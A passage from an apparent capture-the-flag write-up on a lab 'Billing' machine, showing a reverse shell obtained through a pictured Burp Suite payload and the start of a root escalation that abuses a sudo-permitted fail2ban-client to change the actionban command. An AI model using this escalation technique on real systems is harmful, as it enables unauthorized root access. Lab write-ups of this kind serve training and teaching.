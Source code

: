 <img src="/images/billing/billing_reverse_shell_payload (1).webp" alt="burpsuite reverse shell payload" class="postImage">
<p>Starting our listener, we get a shell!</p>

<h2>Step 4: Escalating privileges to root</h2>

<p>After upgrading our shell, we run the sudo -l command and see that we can run the following as sudo:</p>
<pre>
asterisk@ip-10-10-109-160:/var/www/html/mbilling/lib/icepay$ sudo -l
Matching Defaults entries for asterisk on ip-10-10-109-160:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-10-109-160:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
</pre>

<p>After doing some basic research, it seems that fail2ban is an application that protects servers from bruteforce attacks. It bans IP adresses after too many failed attempts.</p>
<p>Delving deeper into the program, it seems that it works with so-called jails which monitor certain services like ssh. It works using a jail.conf file located in the /etc directory. Such a file could for example look like this:</p>
<pre>
[sshd] --> the ssh jail 
enabled = true
port    = ssh
filter  = sshd
logpath = /var/log/auth.log
maxretry = 5 --> banned after 5 login attempts
bantime = 600
</pre>
<p>On the victim machine, we can list the active jails by running this command:</p>
<pre>
asterisk@ip-10-10-109-160:/var/www/html/mbilling/lib/icepay$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
</pre>
<p>There are 8 jails listed including sshd. After some googling, it seems there is a way to elevate privileges.in /etc/fail2ban/action.d, there a bunch of configuration files. Of these files, the iptables-multiport.conf is the most interesting as it contains the "actionban" parameter which is able to execute system command (it basically tells which command to execute  when an ip has more login attempts than the max allowed attempts). Unfortunately, we did not have write privileges to these files. Examining the help page of the fail2ban-client, it seemed that we could modify the actionban parameter through this client:</p>
<pre>